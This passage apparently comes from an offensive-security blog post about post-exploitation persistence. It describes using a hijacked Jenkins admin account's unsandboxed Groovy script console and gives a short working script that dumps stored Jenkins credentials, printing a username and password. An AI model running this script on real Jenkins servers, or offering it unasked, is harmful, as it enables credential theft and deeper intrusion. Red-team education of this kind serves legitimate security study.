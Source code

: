 Apart from regular maintaining persistence techniques, such as using crontab, or injecting `.bashrc`, we can utilize the hijacked Jenkins admin account.
Jenkins provides a script console functionality that can be used admin to execute arbitrary Groovy script in **non-sandbox** mode.

![Script Console](/post_assets/001/post-console.png)

Moreover, we can also use this console to enumerate stored secrets in Jenkins with the following script:

```java
import com.cloudbees.plugins.credentials.*

// list credentials
credentials = SystemCredentialsProvider.getInstance().getCredentials()
println credentials

println ''
println credentials[0]['username'] + ':' + credentials[0]['password']
```
